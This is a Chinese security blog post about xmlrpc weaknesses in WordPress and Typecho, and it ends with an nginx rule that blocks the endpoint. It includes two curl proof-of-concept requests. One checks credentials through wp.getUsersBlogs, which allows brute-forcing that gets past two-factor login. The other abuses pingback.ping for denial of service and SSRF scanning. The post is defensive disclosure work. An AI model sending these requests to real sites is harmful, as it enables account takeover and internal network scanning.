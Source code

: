 ```yaml
---
id: 733
layout: post
title: 'WordPress和Typecho xmlrpc漏洞'
date: 2016-04-20 21:12:00
author: virusdefender
tags: 安全
---
```


一般大家都关注WordPress，毕竟用户量巨大，而国内的Typecho作为轻量级的博客系统就关注的人并不多。Typecho有很多借鉴WordPress的，包括兼容的xmlrpc接口，而WordPress的这个接口爆出过多个漏洞，Typecho无一幸免。

## 账号密码爆破

WordPress的相关漏洞可以参考 https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/ 这个漏洞在Typecho上要危害稍微小一点，因为WordPress是有破解保护的，而这个接口可以绕过这个保护，Typecho并没有这个保护，只要暴露了后台地址就然并卵了。但是我采用了后台登录的两步验证，这个接口接口确实绕过了两步验证。

POC

```shell
curl "https://example.com/action/xmlrpc" -d '<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>{USERNAME}</value></param><param><value>{PASSWORD}</value></param></params></methodCall>'
```

## Ping back造成的dos和SSRF

WordPress会尝试去访问Ping back的url，可能会造成dos问题。参考http://www.acunetix.com/blog/articles/wordpress-pingback-vulnerability/

同时，没有对url进行校验，可以用来扫描内网。

WordPress后来修补了SSRF的问题，后来被绕过，前几天刚刚重新修复，见 http://xlab.baidu.com/wordpress/。但是Typecho没有任何过滤。

POC

```shell
curl "https://example.com/action/xmlrpc" -d '<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://victim.com</string></value></param><param><value><string>https://example.com/index.php/archives/732/</string></value></param></params></methodCall>'
```

看到了xml，还顺手测试了一把xxe，不过暂时没有发现这个问题。解析xml时候的本地拒绝服务是存在的，Inutio XML-RPC Library的问题，有两个CVE。

## 解决方案

nginx屏蔽此url

```
if ($uri ~ ^/index.php/action/xmlrpc) {
    return 403;
}
```
